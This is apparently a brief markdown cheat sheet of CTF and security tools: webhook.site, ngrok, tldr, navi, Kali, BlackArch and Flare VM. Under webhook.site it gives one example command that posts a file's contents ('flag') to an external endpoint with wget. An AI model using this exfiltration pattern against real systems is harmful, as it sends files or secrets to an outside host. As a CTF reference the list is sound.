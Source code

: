 # Common tools

## Misc

- https://webhook.site

  - receive remote connections
  - `wget https://webhook.site/[id] --post-data="$(cat flag)"`

- https://ngrok.com/
  - reverse proxy, connect localhost and internet

## Quality of life

- [unf](https://github.com/io12/unf) - UNixize Filename
- [tldr](https://github.com/tldr-pages/tldr)
- [navi](https://github.com/denisidoro/navi)
  - `navi --cheatsh nmap`

## Operating systems

### Linux

- [Kali](https://www.kali.org/)
- [Blackarch](https://blackarch.org/)

### Windows

- [Flare VM](https://github.com/mandiant/flare-vm)
